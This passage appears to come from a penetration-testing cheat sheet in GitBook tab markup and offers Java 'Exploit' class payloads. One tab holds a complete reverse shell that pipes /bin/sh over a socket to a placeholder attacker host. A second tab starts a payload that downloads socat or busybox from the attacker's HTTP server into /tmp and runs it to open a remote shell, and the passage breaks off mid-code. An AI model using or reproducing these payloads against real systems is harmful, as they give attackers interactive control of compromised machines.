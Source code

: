 {% tab title="#2" %}
Reverse shell:

{% code title="Exploit.java" %}
```java
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {
    public Exploit() throws Exception {
        String host="<LHOST>";
        int port=<LPORT>;
        String cmd="/bin/sh"; // You can change it to a bash.
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}

```
{% endcode %}
{% endtab %}

{% tab title="#3" %}
Reverse shell with socat or busybox. This payload uploads the static binary (from our HTTP server) to the compromised machine and then executes it:

```java
import java.io.InputStream;
import java.io.File;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.nio.file.StandardCopyOption;
import java.net.URL;

public class Exploit {
  static {
    String URL = "http://<LHOST>/<socat-busybox>";
    String FILE_PATH = "/tmp/<socat-busybox>"; // <DIR_PATH>/<FILENAME>
    String CMD = "./socat TCP:<LHOST>:443 EXEC:'/bin/sh',pty,stderr,setsid,sigint,sane &"; // socat
    // String cmd = "<FILE_PATH>/busybox nc <LHOST> 443 -e <FILE_PATH>/busybox sh"; // busybox
```